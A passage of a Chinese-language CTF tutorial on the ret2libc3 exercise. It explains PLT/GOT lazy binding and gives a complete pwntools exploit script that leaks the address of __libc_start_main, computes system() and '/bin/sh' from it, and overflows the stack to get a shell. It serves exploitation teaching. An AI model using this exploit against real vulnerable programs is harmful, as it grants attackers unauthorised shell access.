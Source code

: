 思路：通过puts@plt打印出__libc_start_main在内存中的地址，也就是__libc_start_main@got。
既然puts()函数实现是在libc.so当中，那我们调用的puts@plt()函数为什么也能实现puts()功能呢? 这是因为linux采用了**延时绑定技术**，当我们调用puts@plt()的时候，系统会将真正的puts()函数地址link到got表的puts.got中，然后puts@plt()会根据puts.got 跳转到真正的puts()函数上去。
由于 libc 的延迟绑定机制，我们需要泄漏**已经执行过的函数的地址**。这里我们泄露 libc_start_main 的地址，这是因为它是程序**最初被执行**的地方。

使用ldd命令可以查看目标程序调用的so库。随后我们把libc.so拷贝到当前目录，因为我们的exp需要这个so文件来计算相对地址：
```
$ ldd ret2libc3
	linux-gate.so.1 (0xf7f6b000)
	libc.so.6 => /lib32/libc.so.6 (0xf7d74000)
	/lib/ld-linux.so.2 (0xf7f6d000)

han at ubuntu in ~/ck/pwn/linux/ret2libc
$ cp /lib32/libc.so.6  libc.so

```

### pwn测试
```
from pwn import *
from LibcSearcher import LibcSearcher

p = process('./ret2libc3')
elf = ELF('./ret2libc3')
libc = ELF('./libc.so')

puts_plt = elf.plt['puts']
libc_start_main_got =elf.got['__libc_start_main']
main = elf.symbols['main']

print("leak libc_start_main_got addr and return to main again")
payload = flat(['a'*112],puts_plt,main,libc_start_main_got)
p.sendlineafter('Can you find it !?',payload)

print("receiving libc_start_main_got")
libc_start_main_addr = u32(p.recv(4))
print('libc_start_main_addr = ' + hex(libc_start_main_addr))

print("calculating system() addr and \"/bin/sh\" addr")
system_addr = libc_start_main_addr + (libc.symbols['system']-libc.symbols['__libc_start_main'])
print('system_addr= ' + hex(system_addr))
binsh_addr = libc_start_main_addr + (next(libc.search('/bin/sh'))-libc.symbols['__libc_start_main'])
print('binsh_addr= ' + hex(binsh_addr))

print("get shell")

print(p32(system_addr),p32(binsh_addr))
payload = flat(['a'*104,system_addr,0xdeadbeef,binsh_addr])
p.sendline(payload)
p.interactive()
```
